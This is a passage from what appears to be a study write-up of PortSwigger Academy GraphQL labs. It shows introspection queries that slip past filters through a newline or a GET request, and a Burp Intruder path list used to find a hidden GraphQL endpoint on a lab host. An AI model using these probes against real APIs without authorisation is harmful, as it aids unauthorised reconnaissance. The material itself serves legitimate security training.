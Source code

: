 As such, if the developer has only excluded __schema{, then the below introspection query would not be excluded. 
```bash
    #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

```

If this doesn't work, try running the probe over an alternative request method, as introspection may only be disabled over POST. Try a GET request, or a POST request with a content-type of x-www-form-urlencoded.

The example below shows an introspection probe sent via GET, with URL-encoded parameters.
```bash
    # Introspection probe as GET request

    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

### PRACTITIONER Lab: Finding a hidden GraphQL endpoint
When we go through endpoints we don't see an endpoint for GraphQL, so we use Intruder to try to find it:
```bash
GET §/api§ HTTP/2
Host: 0a4900c10357e1b282cf7041007200b0.web-security-academy.net
Cookie: session=Tzzegi2mh3wQWVe8wR0aJylZuOqYfIET
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```

In the payload we paste the following:
```bash
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
/v1
```

We unclick url encode characters checkbox and start the intruder attack:
We see a lot of 404 responses but one of them is 400 which is the response of `/api`:
```bash
"Query not present"
```

So we send it to repeater and change the req method to POST and see that it's not allowed.
So we try:
```bash
GET /api?query=query{__typename} HTTP/2
```
